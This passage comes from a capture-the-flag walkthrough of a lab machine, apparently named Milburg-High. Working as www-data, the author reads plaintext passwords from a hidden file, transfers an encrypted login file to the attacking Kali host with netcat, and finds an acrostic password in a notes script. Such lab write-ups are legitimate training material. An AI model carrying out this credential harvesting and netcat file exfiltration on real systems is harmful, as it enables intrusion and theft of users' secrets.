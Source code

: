 ```console
theadminisdumb

I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but at the same time it doesn’t affect me if they get breached, I get paid, he gets fired it’s a good time.
```

In bob's home directory, in hidden file, I found the password for users jc and seb.

```console
www-data@Milburg-High:/home/bob$ cat .old_passwordfile.html 

<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

In bob's Documents directory I found three resources.

```console
www-data@Milburg-High:/home/bob/Documents$ ls
Secret  login.txt.gpg  staff.txt
```

Then I Transfer the login.txt.gpg file to the attacking machine which looks interesting.

```console
www-data@Milburg-High:/home/bob/Documents$ nc -vlnp 8080 < login.txt.gpg 
listening on [any] 8080 ...
connect to [192.168.179.153] from (UNKNOWN) [192.168.179.1] 59366


root@kali:~$ nc 192.168.179.153 8080 > login.txt.gpg
```

Inside the secret directory I found a script with notes, as we can see, the first letters vertically say **HARPOCRATES**, this looks like a potential password.

```console
www-data@Milburg-High:/home/bob/Documents$ cat Secret/Keep_Out/Not_Porn/No_Lookie_In_Here/notes.sh 
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```
